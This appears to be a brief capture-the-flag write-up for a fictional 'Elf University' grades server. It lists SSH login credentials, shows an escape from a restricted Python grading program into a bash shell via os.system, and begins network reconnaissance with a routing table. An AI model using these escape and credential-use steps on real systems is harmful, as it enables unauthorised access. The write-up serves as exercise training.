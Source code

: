 ssh qeupltghai@grades.elfu.org -p 2222

ElfU Domain Username: qeupltghai
ElfU Domain Password: Afxgbuilf!

# Grade program breakout
ctrl-d -> breaks out of IPython session

then use os module to execute shell

```python
===================================================
=      Elf University Student Grades Portal       =
=          (Reverts Everyday 12am EST)            =
===================================================
1. Print Current Courses/Grades.
e. Exit
: Traceback (most recent call last):
  File "/opt/grading_system", line 41, in <module>
    main()
  File "/opt/grading_system", line 26, in main
    a = input(": ").lower().strip()
EOFError
>>> import os
>>> os.system("/bin/bash")
qeupltghai@grades:~$ 
```
# Network Scan
qeupltghai@grades:~$ route -n
Kernel IP routing table
Destination     Gateway         Genmask         Flags Metric Ref    Use Iface
0.0.0.0         172.17.0.1      0.0.0.0         UG    0      0        0 eth0
10.128.1.0      172.17.0.1      255.255.255.0   UG    0      0        0 eth0
10.128.2.0      172.17.0.1      255.255.255.0   UG    0      0        0 eth0
10.128.3.0      172.17.0.1      255.255.255.0   UG    0      0        0 eth0
172.17.0.0      0.0.0.0         255.255.0.0     U     0      0        0 eth0